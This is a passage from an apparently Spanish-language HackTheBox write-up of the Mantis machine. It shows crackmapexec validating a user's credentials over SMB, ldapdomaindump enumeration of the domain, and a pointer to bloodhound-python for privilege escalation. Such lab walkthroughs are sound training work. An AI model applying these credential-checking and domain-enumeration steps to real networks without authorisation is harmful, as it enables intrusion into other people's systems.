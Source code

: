 <img src="/writeups/assets/img/Mantis-htb/6.png" alt="">

La del usuario ```james``` es válida a nivel de sistema

```null
crackmapexec smb 10.10.10.52 -u 'james' -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

Aplico enumeración por LDAP

```null
mkdir ld
cd ld
ldapdomaindump -u 'htb.local\james' -p 'J@m3s_P@ssW0rd!' 10.10.10.52
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

ldapdomaindump -u 'htb.local\james' -p 'J@m3s_P@ssW0rd!' 10.10.10.52
```

# Escalada

Hay muy pocos usuarios

<img src="/writeups/assets/img/Mantis-htb/7.png" alt="">

Para encontrar formas de escalar privilegios utilizo el ingestor ```bloodhound-python```
